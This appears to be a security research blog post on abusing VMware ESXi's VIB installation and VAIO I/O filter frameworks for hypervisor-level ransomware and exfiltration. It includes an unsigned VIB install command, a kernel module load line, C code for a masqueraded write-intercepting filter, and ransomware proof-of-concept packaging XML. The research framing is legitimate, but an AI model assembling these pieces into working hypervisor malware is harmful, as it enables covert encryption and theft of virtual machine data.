




> Sometimes it's not a bug... it's a feature *used a little too creatively* (ESXi malware at kernel-level)


Okay, yes... this *looks* more like a feature misuse than a proper "CVE worthy" vulnerability, 
but don't make assumptions so fast. Once you see what's possible, you might start sweating just a little.

This post dives into how a misbehaving vSphere Installation Bundle (VIB) can use VMware’s own VAIO (vSphere APIs for I/O filtering) against it. I will walk you through how this setup can be quietly hijacked to run attacks right at the hypervisor level. Think ransomware. Think some chinese APT exfiltrating data. Think “wait, this was *allowed*?”

Let's take a look at how powerful things can go sideways just as badly as giving a toddler espresso.

---


VMware's VIB and VAIO frameworks are built to enable powerful extensions at the hypervisor level. From deduplication and caching to security scanning, these are features meant to make your virtual environment *better*.

But… with great extensibility comes great opportunity for abuse.


This analysis explores how these same components... when not tightly controlled, can give attackers a shiny (gr00tz shinyhunters #RIP), low-level platform for deploying whatever makes you sweat cold. I'm talking I/O interception, manipulation, exfiltration... with ransomware as a case study to demonstrate just how serious the impact can be.

The bottom line? Trusting VIBs too much, or allowing unsigned installs, opens the door to the kind of problems that don't just compromise VMs... they compromise trust in your whole virtualization stack.

BTW: the story behind this vector turned out to be way more interesting than your average “patch version X” advisory. So here we are.

---


First up, a little about the attack surface.

The VIB and VAIO frameworks provide legitimate mechanisms for extending ESXi hypervisor functionality, but they also create significant security risks when abused. These frameworks come about when VMware allows third-party components to be installed and executed at the hypervisor level.



```bash
esxcli software vib install --vibname=legitimate-component.vib
```

In this case, the VIB installation is correct.. no security vulnerability here (yet).

If, however, a malicious actor can install a VIB containing kernel modules and user-space components:

```bash
esxcli software vib install --vibname=malicious-component.vib --no-sig-check
```

In this case, what if the VIB contains malicious kernel modules and user-space daemons? We now have a hypervisor-level attack vector. Is it this simple? 

The VIB framework will install and execute the malicious components at the hypervisor level (hm.), even though they contain attack payloads... (normal, it's ESXi not Windows with CS EDR), 

P.S. Letting attackers control your hypervisor extensions leads to VM compromise.

As you would expect from the hypervisor world, this is roughly (or perhaps exactly) what malicious actors could do.

It's worth noting that the VIB framework provides legitimate functionality for system administrators, which suggests this is exactly what VMware intended... a mechanism for extending hypervisor functionality. 

Now that we understand the attack surface, let's explore how these frameworks can be weaponized.

## Attack Vectors and Implementation

The abuse of VIB and VAIO frameworks can be implemented through several attack vectors, with ransomware (*YAY!*)
For example... a malicious actor would develop their ransomware to hook and intercept I/O to encrypt VMs in real-time at kernel-level. 

### Core Attack Components

1. **Malicious VIB Package** - Contains kernel modules, user-space binaries, and configuration files
2. **VAIO Filter Driver** - Intercepts VM disk I/O at the vSCSI layer with broad system access
3. **User-Space Attack Payload** - Implements the actual malicious functionality (in the core goes the encryption..)


### VIB and VAIO Attack Taxonomy

```mermaid
flowchart LR
    %% Increase spacing for better visibility
    %% Layout tweaks
    %% - Node spacing: spreads out boxes
    %% - Rank spacing: adds vertical padding
    %% - Font size slightly increased with style

    %% Define graph settings
    graph LR
        %% Increase default spacing between nodes
        %% (Larger canvas)
        linkStyle default stroke-width:2px;
        %% Optional spacing config (supported in most Mermaid renderers)
        classDef default font-size:18px,font-weight:bold;
        %% Add some manual breaks for layout control
        A["VIB Installation"]
        B["Kernel Module Loading"]
        C["VAIO Filter Registration"]
        D["I/O Stack Hook"]
        E["User-Space Daemon"]
        F["IPC Communication"]
        G["Data Processing"]
        H["Modified I/O"]
        I["VMkernel Execution"]

        A --> B --> C --> D --> E --> F --> G --> H --> I

        %% Spacing hints
        %% These make the flowchart take up more horizontal space
        linkStyle 0,1,2,3,4,5,6,7 stroke-width:2px;


```

### Attack Vectors Enabled by VIB/VAIO Abuse

1. **Ransomware Deployment** - Transparent encryption of VM data without VM knowledge 
2. **Data Exfiltration** - Think of it like the CIA and WhatsApp... CIA sits right between you and WhatsApp. 

I understand that there would be many MANY attack vectors. I decided to lock down to these only as others might have different cases. Normally when you see an exploit on GitHub... you won't think some Chinese/NK APT will use it to drain water in SK/TW. 

Now let's dive into the technical implementation details of how these attacks are constructed.

## Technically drowning: Building the Attack

### 1. VIB-Based Attack Deployment

The first step in weaponizing these frameworks involves creating a malicious VIB package. VIB packages provide a legitimate mechanism for deploying malicious components:

#### VIB Security Vulnerabilities
- **Code Signing Bypass** - `--no-sig-check` flag allows unsigned VIB installation 
- **Persistence Mechanisms** - VIBs can install kernel modules and services that survive reboots
- **Privilege Escalation** - VIBs can request elevated privileges during installation

During a bit of research... it's possible once an attacker has installed and bypassed 'sig' check. They could load the module to kernel by abusing 'rc.local.d' to load a module on boot by using vmkload and manually load as a kernel driver on reboot if Secure Boot is disabled. 



```bash

vmkload_mod ciabackdoor

```
Pretty cool, right?

### 2. VAIO Filter Driver Implementation

Once the VIB is deployed, the next step is implementing the VAIO filter driver that will intercept and manipulate I/O operations. I decided to showcase how to implement I/O filtering via VAIO... and simply it's pretty easy to do so and then whatever comes next becomes easier. 
#### Filter Registration
```c
memset(&filter_callbacks, 0, sizeof(filter_callbacks));
filter_callbacks.PreIo = MaliciousFilter_OnWrite;  

// Register the filter with VAIO framework
VAIO_FilterSpec spec;
spec.filterName = "SystemOptimizationFilter";
spec.filterType = VAIO_FILTER_CACHING;  // masquerade as legitimate filter
spec.callbacks = &filter_callbacks;
VMK_ReturnStatus status = VAIO_RegisterFilter(&spec, &filter_handle);
```

#### I/O Intercept Mechanism
```c
static VMK_ReturnStatus MaliciousFilter_OnWrite(VAIO_Request *ioReq)
{
    // This function is called whenever a VM issues a write I/O
    uint8_t *data = ioReq->buffer;    // pointer to the write buffer
    uint32_t dataLen = ioReq->length;
    
    // Allocate and set up a PendingRequest struct
    struct PendingRequest *req = vmk_HeapAlloc(vmk_SystemHeap, sizeof(*req));
    req->id = next_request_id++;
    req->length = dataLen;
    req->buffer = vmk_HeapAlloc(vmk_SystemHeap, dataLen);
    memcpy(req->buffer, data, dataLen);  // copy original write data
    
    // Place the request in the pending queue for user-space to pick up
    spin_lock_irq(&req_queue_lock);
    // Add to end of pending list
    req->next = NULL;
    if (pending_head == NULL) {
        pending_head = req;
    } else {
        struct PendingRequest *tail = pending_head;
        while (tail->next) tail = tail->next;
        tail->next = req;
    }
    spin_unlock_irq(&req_queue_lock);
    
    // Wait for the user-space daemon to process and signal completion
    wait_event_interruptible(req->wait_q, req->completed == true);
    
    // Copy modified data back into the I/O request buffer
    memcpy(data, req->buffer, req->length);
    
    return VAIO_COMPLETE_IO;  // indicates we handled it and data is modified
}
```


### 3. VIB Packaging and Deployment

Finally... to ship our very scary payload, we bundle it all as a vSphere Installation Bundle (VIB):

#### VIB Descriptor
```xml
<vib version="8.0">
    <type>bootbank</type>
    <name>ESXiEncryptFilter</name>
    <version>1.0.0-1</version>
    <vendor>EduLab</vendor>
    <summary>Educational ESXi Ransomware Filter (Encryption I/O Filter)</summary>
    <description>Proof-of-concept VAIO filter that encrypts VM disk writes (lab use only).</description>
    <acceptance-level>VMwareAccepted</acceptance-level>
    <live-install-allowed>true</live-install-allowed>
    <live-remove-allowed>true</live-remove-allowed>
    <payloads>
        <payload name="ESXiEncryptFiles" type="tgz"></payload>
    </payloads>
</vib>
```

#### Service Definition
```xml
<ConfigRoot>
   <service id="1001">
      <id>encryptdaemon</id>
      <required>false</required>
      <primordial>false</primordial>
      <transient>false</transient>
      <onboot>true</onboot>
      <escort>false</escort>
      <stopTimeout>60</stopTimeout>
      <initscript>/etc/init.d/encryptdaemon</initscript>
      <displayname>Encrypt Daemon (Ransomware PoC)</displayname>
      <description>User-space encryption service for ESXi I/O filter (educational PoC)</description>
      <order>Medium</order>
      <enabled>true</enabled>
      <ruleset></ruleset>
      <restarts>0</restarts>
      <reserved>false</reserved>
      <daemon>true</daemon>
   </service>
</ConfigRoot>
```

Having examined the technical implementation, let's now assess the real-world impact and implications of these attack vectors.

## Conclusions 


Overall I have enjoyed working on this pretty much... and there will be much more research on ESXi and will share so many private techniques... I hope you enjoyed it :)). 

Currently we have found many many vulnerabilities... such as unsigned kernel-level loading ability, trust model weakness, acceptance level is very flexible in a bad way... CISA should not wonder how Chinese APTs persist for years, how APTs like Salt Typhoon persist for years if that's the tech stack, 

Additionally, VAIO presents significant security concerns... an I/O framework should not be that open and it can be proven how it can make ransomware work pretty easily... it can intercept all VM disk operations... while VMs remain unaware of anything, as well as vSphere monitoring. 


### How Critical Is 'Critical'?

I won't exaggerate, a key role is to tell how critical the attack surface is. Remember that this is about a hypervisor not a desktop or a server, patching is not very simple. 

It won't be so long till some ransomware group (like SL$H) starts abusing this to lock hundreds of org's ESXis undetected at near raw disk speed. 

However, as I said... it's a technique... not a vulnerability. 


## References

- [ESXi PSOD when UEFI Secure Boot is enabled](https://knowledge.broadcom.com/external/article/408122/esxi-psod-when-uefi-secure-boot-is-enabl.html)
- [Modifying the rc.local or localsh file in ESXi](https://knowledge.broadcom.com/external/article/324525/modifying-the-rclocal-or-localsh-file-in.html)
- [MITRE ATT&CK: Server Software Component - ESXCLI](https://attack.mitre.org/techniques/T1505/006/#:~:text=,esxcli)
- [ESXi Hypervisors: Malware Persistence](https://cloud.google.com/blog/topics/threat-intelligence/esxi-hypervisors-malware-persistence)
- [ESXi Hypervisors: Detection and Hardening](https://cloud.google.com/blog/topics/threat-intelligence/esxi-hypervisors-detection-hardening)
- [VMware ESX Boot Repository](https://github.com/vmware/esx-boot)
- [BrickStorm Espionage Campaign](https://cloud.google.com/blog/topics/threat-intelligence/brickstorm-espionage-campaign)
- [vSphere API for I/O Filtering (VAIO) Overview](https://www.virtualhome.blog/2019/12/19/vsphere-api-for-i-o-filtering-vaio-overview/)

